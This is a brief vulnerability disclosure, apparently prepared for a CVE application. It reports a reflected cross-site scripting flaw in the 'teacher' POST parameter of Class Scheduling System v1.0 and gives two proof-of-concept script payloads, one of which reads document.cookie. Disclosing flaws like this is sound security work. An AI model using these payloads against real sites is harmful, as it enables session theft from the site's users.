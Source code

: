 # Class Scheduling System v1.0 by has reflected cross site scripting vulnerability

BUG_Author: joicygiore

Website source address: https://www.sourcecodester.com/php/5175/class-scheduling-system.html

Vulnerability File: /online_class_scheduling_system/search_teacher_result.php

Parameter "teacher" (POST), exists reflected cross site scripting vulnerability

Payload1:teacher=--><script>alert(996)</script>&semester=2nd&sy=2012-2013&save=

![image](https://github.com/joicygiore/ApplyForCVE/blob/main/1.png)

Payload2:teacher=--><script>alert(document.cookie)</script>&semester=2nd&sy=2012-2013&save=

![image](https://github.com/joicygiore/ApplyForCVE/blob/main/2.png)
